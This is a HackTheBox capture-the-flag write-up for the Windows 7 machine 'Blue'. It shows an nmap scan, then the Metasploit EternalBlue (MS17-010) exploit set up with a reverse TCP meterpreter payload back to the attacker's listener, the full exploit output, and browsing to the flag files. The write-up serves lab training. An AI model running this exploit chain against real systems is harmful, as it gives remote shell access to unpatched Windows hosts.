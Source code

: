 ```yaml
---
layout: default
title: "Blue"
tags: HackTheBox Windows 2020
---
```


| OS       | Difficulty | Points | Release Date | IP Address  |
|----------|------------|--------|--------------|-------------|
| Windows  | Easy       | 20     | 28 July 2017 | 10.10.10.40 |



# Skills

* NMap
* Metasploit

# Information Gathering

## Nmap

```bash
sudo nmap -A -T4 -p- 10.10.10.4
```

This was the initial nmap scan. Some key things to note are:
* ```139/tcp open microsoft-ds```
* ```Host: HARIS-PC``` (Noted as a possible username)

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -18m15s, deviation: 34m36s, median: 1m42s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-07-10T22:30:10+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-10T21:30:07
|_  start_date: 2020-07-10T10:57:21
```

# Exploitation

## Searching for the Exploit

Once I had found my attack vector, all that was left was the fun part: exploitation.
I firstly had to find the Metasploit module that contained the ```MS17-010``` exploit.

```bash
msf5 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

msf5 > use 2
```

## Setting Module Options
Then, I configured the module to exploit the target machnine (```10.10.10.40```) and to open up a TCP listener on my machine (```10.10.14.30```).

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.30
LHOST => 10.10.14.30
``` 

## Setting Payload & Running Exploit
      
After that, I set the payload to a staged meterpreter shell rather than the default unstaged generic one and exploited!

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcppayload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.14.30:4444 
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1 
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.30:4444 -> 10.10.10.40:49159) at 2020-07-10 23:14:29 +0100
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```    

# User Flag
```bash
meterpreter > cd Desktop
meterpreter > ls 
Listing C:\users\haris\Desktop
==============================

Mode              Size  Type   Last Modified                Name
----              ----  ----   -------------                ----
100666/rw-rw-rw-  282   fil    2017-07-14 14:45:52 +0100    desktop.ini
100666/rw-rw-rw-  32    fil    2017-07-21 07:54:02 +0100    user.txt

meterpreter > cat user.txt
```


# Root Flag
```bash
meterpreter > cd /users/Administrator/Desktop
meterpreter > ls 
Listing C:\users\Administrator\Desktop
==============================

Mode              Size  Type   Last Modified                Name
----              ----  ----   -------------                ----
100666/rw-rw-rw-  282   fil    2017-07-14 07:56:36 +0100    desktop.ini
100444/r--r--r--  32    fil    2017-07-21 07:56:49 +0100    root.txt

meterpreter > cat root.txt
```